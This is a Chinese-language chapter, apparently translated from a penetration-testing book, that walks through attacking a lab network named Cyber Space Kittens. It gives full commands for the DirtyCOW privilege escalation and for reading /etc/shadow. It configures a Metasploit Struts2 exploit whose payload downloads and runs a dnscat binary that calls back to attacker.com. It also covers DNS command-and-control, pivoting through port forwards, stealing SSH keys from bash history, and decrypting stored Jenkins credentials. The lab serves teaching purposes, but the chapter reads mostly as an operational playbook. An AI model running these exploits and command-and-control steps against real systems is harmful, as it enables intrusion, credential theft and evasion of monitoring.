

现在，我们要利用什么呢？这就是经验和实践真正发挥作用的地方。在我的实验中，我将配置大量不同的 Linux 版本，以验证这些漏洞攻击不会使底层系统崩溃。在这个场景中，我最喜欢的一个漏洞是 DirtyCOW。

DirtyCOW 的工作原理是“在Linux内核的内存子系统处理写访问时只读私有映射 COW 情况中断的方式中发现了竞争条件。非特权本地用户可以使用此缺陷获取对其他只读内存映射的写访问权限，从而增加他们在系统上的权限。”[https://dirtycow.ninja/]

简而言之，此漏洞允许攻击者通过内核漏洞从非特权用户转到 `root` 权限。这是我们能想到的的最佳权限提升的方法！但有一个问题是它会导致一些内核崩溃，所以我们必须确保在正确的 Linux 内核上使用正确的版本。

在 Ubuntu 上测试 DirtyCOW (ubuntu 14.04.1 LTS 3.13.0-32-generic x86_64)：
- 下载 DirtyCOW payload
  - wget http://bit.ly/2vdh2Ub -O dirtycow-mem.c
- 编译 DirtyCOW payload
  - gcc -Wall -o dirtycow-mem dirtycow-mem.c -ldl -lpthread
- 运行 DirtyCOW 以访问系统
  - ./dirtycow-mem
- 关闭定期写回以使漏洞稳定
  - echo 0 > /proc/sys/vm/dirty_writeback_centisecs
- Try reading the shadow file
  - cat /etc/shadow

## Linux 横向移动实验

横向移动的问题是，没有一个设置起点逐步深入的环境很难练习。因此，我们向你介绍了 CSK 网络安全实验。在这个实验中，你将在不同的设备之间进行切换，使用最近的漏洞攻击和权限提升攻击，并利用 Linux 环境中本身存在的应用程序进行攻击。

**设置虚拟环境**

这个虚拟实验环境的设置有些复杂。这是因为网络需要三个不同的静态虚拟机才能运行，并且你需要事先进行一些设置。所有这些都在 VMware Workstation 和 VMware Fusion 中进行了测试，因此如果你使用的是 VirtualBox，那么你可能需要对它进行适当的调整。

下载三台虚拟机：

- http://thehackerplaybook.com/get.php?type=csk-lab
- 虽然你不需要这些系统的 root 帐户，但 hacker/changeme 是用户名/密码，尽量不要更改。

所有三台虚拟机都配置为使用 NAT 网络接口。要使该实验环境正常工作，你必须在 VMware 中配置虚拟机的 NAT 设置，才能使用172.16.250.0/24网络。要在 Windows VMware Workstation 中执行此操作，请执行以下操作：
- 在开始菜单，依次点击 编辑 -> 虚拟网络编辑器 -> 更改设置
- 选择需要设置 NAT 类型的界面(我这里设置的是 VMnet8)
- 修改子网 IP 为 172.16.250.0 ，并点击 应用

在 OSX 中，操作更复杂。你需要：
- 复制原始的 dhcpd.conf 作为备份
  - sudo cp /Library/Preferences/VMware\ Fusion/vmnet8/dhcpd.conf/Library/Preferences/VMware\ Fusion/vmnet8/dhcpd.conf.bakup
- 编辑 dhcpd.conf 文件以使用172.16.250.x 而不是192.168.x.x
  - sudo vi /Library/Preferences/VMware\ Fusion/vmnet8/dhcpd.conf
- 编辑 nat.conf 以使用正确的网关
  - sudo vi /Library/Preferences/VMware\ Fusion/vmnet8/nat.conf
    - \#NAT gateway address
    - ip = 172.16.250.2
    - netmask = 255.255.255.0
- 重新启动服务：
  - sudo /Applications/VMware\ Fusion.app/Contents/Library/services/services.sh --stop
  - sudo /Applications/VMware\ Fusion.app/Contents/Library/services/services.sh --start

现在，你应该能够在 NAT 模式下启动 THP	Kali	VM，并在172.16.250.0/24范围内获得一个 DHCP 分配的 IP。如果你这样做了，就同时启动所有其他三个实验虚拟机，然后开始黑客攻击吧。

### 攻击 CSK 安全网络

最后，你已经从 Windows 环境转到了安全生产环境网络中。从你所有的侦察和研究中，你知道所有的秘密都存储在这里。这是他们保护最严密的网络之一，我们知道他们已经分步部署了他们的安全基础设施。从他们的文档来看，似乎有多个 VLAN 需要进行入侵，而且你似乎需要在各个系统之间切换才能访问核心数据库。这就是你发起这次攻击的目的......

以安全网络区域的外部为中心，可以看到为此环境配置的网络范围位于172.16.250.0/24网络中。由于你对这个网络不太了解，你可以先进行一些非常简单的 nmap 扫描。你需要确定哪些系统可以从网络外部访问，以确定如何启动攻击。

扫描网络:

- nmap 172.16.50.0/24

你注意到有三个设备正在运行，但只有一个设备启用了 Web 端口。看起来其他两个设备与安全网络之外是隔离的，这意味着我们必须首先入侵172.16.250.10设备才能转到其他两个服务器。访问第一个系统（172.16.250.10），你会看到 Apache Tomcat 正在监听端口8080，而一些 OpenCMS 在端口80上。运行 web fuzzer 时，你会注意到 OpenCMS  页面也在运行 Apache Struts2（或者是 struts2 showcase）。你的脑海立马想到了Equifax 数据泄露事件中黑客的攻击手法。你喜出望外，太好了，但你还是要检查一下。在 msfconsole 上运行一个快速搜索并测试漏洞 `struts2_content_type_ognl`。



我们知道，CSK 会严格监控受保护的网络流量，其内部服务器可能不允许直接访问公司网络。为了解决这个问题，我们必须使用我们的 DNS C2 payload 和 dnscat2 来通过 UDP 而不是 TCP 进行通信。当然，在真实操作中，我们可能会使用权威的 DNS 服务器，但仅针对本地测试的话，我们将配置自己的 DNS 服务器。

[本书的 Kali 机器]

本书的定制 Kali 虚拟机应该拥有执行攻击的所有工具。
- 我们需要在 Web 服务器上放上我们的 payload，这样我们就可以让我们的 metasploit payload 抓取 dnscat 恶意软件。在 dnscat2 客户机文件夹中是 dnscat 二进制文件。
  - cd /opt/dnscat2/client/
  - python -m SimpleHTTPServer 80
- 启动 dnscat 服务器
  - cd /opt/dnscat2/server/
  - ruby ./dnscat2.rb
- 为 dnscat 记录你的密钥



- 打开新终端并加载 Metasploit
  - msfconsole
- 搜索 struts2并加载 struts2漏洞
  - search struts2
  - use exploit/multi/http/struts2_content_type_ognl
- 配置 struts2漏洞以获取我们的 dnscat payload 并在受害者服务器上执行。确保在前面更新你的 IP 和密钥。
  - set RHOST 172.16.250.10
  - set RPORT 80
  - set TARGETURI struts2-showcase/showcase.action
  - set PAYLOAD cmd/unix/generic
  - set CMD wget http://<your_ip>/dnscat -O /tmp/dnscat && chmod+x /tmp/dnscat && /tmp/dnscat --dns server=attacker.com，port=53 --secret=<Your Secret Key>
  - run
- 一旦 payload 执行，你将不会在 Metasploit 中得到任何确认，因为我们使用了 dnscat 的 payload。你需要检查你的 dnscat 服务器是否有任何使用 DNS 流量的连接。



- 回到 dnscat2服务器上，检查新执行的 payload 并创建一个 shell 终端。
  - 与第一个 payload 进行交互
    - window -i 1
  - 生成 shell 进程
    - shell
  - 用键盘按钮返回主菜单
    - ctrl + z
  - 与新 shell 进行交互
    - window -i 2
  - 键入 shell 命令
    - ls



你已经入侵了 OpenCMS/Apache Struts 服务器！现在要做什么？你需要花一些时间检查服务器并寻找有趣的信息。你想起来服务器正在运行 OpenCMS Web 应用程序，并确定该应用程序是在 /opt/tomcat/webapps/kittens 下配置的。在查看 OpenCMS 属性的配置文件时，我们发现数据库、用户名、密码和 IP 地址为 172.16.250.10。

检索数据库信息：
- cat /opt/tomcat/webapps/kittens/WEB-INF/config/opencms.properties



我们成功连接到数据库了，但看不到太多信息。这是因为我们目前是一个有限的 Tomcat 用户，这确实阻碍了我们的攻击。因此，我们需要找到一种提权的方法。在服务器上运行 post exploitation reconnaissance（uname -a && lsb_release -a），你可以识别出这是一个非常旧的 Ubuntu 版本。幸运的是，此服务器容易受到权限提升漏洞 DirtyCOW 的攻击。让我们创建一个 DirtyCOW 二进制文件并转到根目录！

Escalation 提升 dnscat 权限：
- 下载并编译目录：
    - cd /tmp
    - wget http://bit.ly/2vdh2Ub -O dirtycow-mem.c
    - gcc -Wall -o dirtycow-mem dirtycow-mem.c -ldl -lpthread
    - ./dirtycow-mem
- 尝试保持 DirtyCOW 漏洞利用的稳定性，并允许内核崩溃时重新启动。
    - echo 0 > /proc/sys/vm/dirty_writeback_centisecs
    - echo 1 > /proc/sys/kernel/panic && echo 1 > /proc/sys/kernel/panic_on_oops && echo 1 > /proc/sys/kernel/panic_on_unrecovered_nmi && echo 1 > /proc/sys/kernel/panic_on_io_nmi && echo 1 > /proc/sys/kernel/panic_on_warn
- whoami


注意：DirtyCOW 不是一个非常稳定的提权方法。如果你对漏洞利用过程有问题，请查看我的 Github 页面，在这里了解创建 setuid 二进制文件的更稳定的过程：

- https://raw.githubusercontent.com/cheetz/dirtycow/master/THP-Lab
-  如果仍然有问题，另一个选项是通过 SSH 登录到初始服务器，并以 root 身份执行 dnscat payload。要登录，请使用凭据 hacker/changeme 登录系统并使用 sudo-su 获得 root 权限。

现在，由于主机系统上没有补丁，你已经成为系统的 root 用户。当你再次开始为敏感信息翻阅系统文件时，你会看到 root 的 bash 历史文件。在这个文件中，你可以找到 SSH 命令和私有 SSH 密钥来源。我们可以使用此 SSH 密钥并登录到第二个系统172.16.250.30：

- cat ~/.bash_history
- head ~/.ssh/id_rsa
- ssh -i ~/.ssh/id_rsa root@172.16.250.30


你花了一些时间在第二个系统上，试着理解它的用途。在四处搜索时，你注意到在 /home 目录中有一个 Jenkins 用户，它引导你识别在端口8080上运行的 Jenkins 服务。我们如何使用浏览器查看 Jenkins 服务器上的内容？这就是 dnscat 的端口转发功能发挥作用的地方。我们需要退出最初的shell，去命令终端。从那里，我们需要设置一个监听器，通过 dnscat 将我们的流量从攻击者机器转发到端口8080上的 Jenkins Box（172.16.250.30)。

执行 dnscat 端口转发：

- 退出现有的 shell
  - Ctrl + z
- 返回我们的第一个命令代理并设置一个监听器/端口转发：
  - window -i 1
  - listen 127.0.0.1:8080 172.16.250.30:8080
- 在你的 Kali 虚拟机上，使用我们的端口转发代理打开浏览器并打开下面的地址（这将比 dns 慢一些）：
  - http://127.0.0.1:8080/jenkins


在 Jenkins 应用程序内的凭证管理器内部，我们将看到 db_backup 用户密码已存储，但不可见。 我们需要弄清楚如何从 Jenkins 中获取此凭据，以便我们可以继续横向移动。


n00py 对 Jenkins 中存储的凭据以及如何提取它们做了一些很好的研究（ http://bit.ly/2GUIN9s ）。 我们可以使用现有的 shell 来利用此攻击并获取 credentials.xml，master.key 和 hudson.util.Secret 文件。

- 返回 dnscat 中的主菜单并与原始 shell 进行交互
  - Ctrl + z
  - window -i 2
- 转到 Jenkins 的主目录并获取三个文件：credentials.xml，master.key 和 hudson.util.Secret。
  - cd /home/Jenkins
- 我们可以尝试关闭这些文件，或者我们可以将这些文件作为基础并通过当前的 shell 复制它们。
  - base64 credentials.xml
  - base64 secrets/hudson.util.Secret
  - base64 secrets/master.key
- 我们可以将 base64输出复制回我们的 Kali 系统并解码它们以破解 db_backup 用户的密码。
  - cd /opt/jenkins-decrypt
  - echo “<base64 hudson.util.Secret>” | base64 —decode >
    hudson.util.Secret
  - echo “<base64 master.key >” | base64 —decode > master.key
  - echo “<base64 credentials.xml >” | base64 —decode > credentials.xml
- 使用 https://github.com/cheetz/jenkins-decrypt 解密密码
  - python3 ./decrypt.py master.key hudson.util.Secret credentials.xml


我们能够成功解密 db_backup 用户的密码 `)uDvra{4UL^;r？*h`。如果我们回顾一下之前的注释，我们会在 OpenCMS 属性文件中看到数据库服务器位于 172.16.250.50。看起来这个 Jenkins 服务器出于某种原因会对数据库服务器执行某种备份。让我们检查一下我们是否可以获取 db_backup 的凭据：利用 `)uDvra{4UL^;r？*h` 通过 SSH 登录数据库服务器。唯一的问题是通过我们的 dnscat shell，我们没有直接按标准输入（STDIN）来与 SSH 的密码提示进行交互。 因此，我们将不得不再次使用我们的端口将我们的 SSH shell 从 Kali 虚拟机通过 dnscat 代理传递到数据库服务器（172.16.250.50）。

- 回到命令 shell
  - Ctrl + z
  - window -i 1
- 创建一个新的端口转发，从 localhost 转到172.16.250.50的数据库服务器
  - listen 127.0.0.1:2222 172.16.250.50:22


一旦使用 db_backup 帐户进入数据库服务器（172.16.250.50），我们会注意到此帐户是 sudoers 文件的一部分，并且可以 sudo su 到 root。 一旦 root 在数据库服务器上，我们将四处寻找也找不到任何访问数据库的凭据。我们可以重置 root 数据库密码，但最终可能会破坏其他一些应用程序。相反，我们搜索位于/var/lib/mysql 下的不同数据库，并发现 cyberspacekittens 数据库。在这里，我们找到 secrets.ibd 文件，其中包含 secrets 表的所有数据。在我们阅读数据时，我们意识到它可能是加密的...由你来执行剩下的操作...


恭喜！！！你已成功入侵 Cyber Space Kittens 网络！

不要止步于此...你可以用这些系统做很多事情；我们现在只触及了表面。随意在被入侵的系统上翻阅，找到更敏感的文件，找出其他权限升级的方法，等等。作为参考，在本实验中，环境拓扑如下所示：


## 本章总结
在本章中，我们经历了入侵网络的一系列操作。 我们开始在外部网络上没有任何凭据或利用社会工程的方式入侵到我们的第一个受害者系统。从那里开始，我们能够利用目标系统本身的应用程序，获取有关网络和主机系统的信息，横向移动，权限提升，并最终攻陷整个网络。这一切都是建立在最少程度的扫描，利用网络特性，并试图逃避所有检测机制之上完成的。
